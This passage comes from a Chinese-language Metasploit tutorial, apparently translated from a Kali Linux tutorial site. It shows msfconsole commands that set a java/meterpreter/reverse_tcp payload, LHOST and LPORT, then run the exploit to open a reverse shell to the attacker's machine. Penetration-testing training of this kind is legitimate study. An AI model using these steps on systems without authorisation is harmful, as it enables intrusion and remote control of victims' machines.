 接下来，我们必须设置所有必需的选项&有效载荷。首先，我们必须寻找兼容的有效载荷。所有有效负载可能与当前模块不兼容。

```
>show payloads
```

然后为了设置它，复制路径& issue:

```
>set PAYLOAD java/meterpreter/reverse_tcp
```

Meterpreter 是最先进的有效载荷。我们可以从这个强大的有效载荷中获得很多乐趣。我们稍后将讨论这一点。

现在设置 LHOST，它是有效负载必须返回连接的机器。记住要给出完整的 ip 地址，而不是本地主机或 127.0.0.1 等

```
set LHOST 192.168.0.103
```

如果需要，您可以更改监听端口

```
set LPORT 4445
```

现在都准备好了

```
>exploit
```

[![msfconsole](img/04313a9e3da0da16f4498f1c5a2b4496.png)](http://kalilinuxtutorials.com/et/msfconsole-1/attachment/msf2-5/)
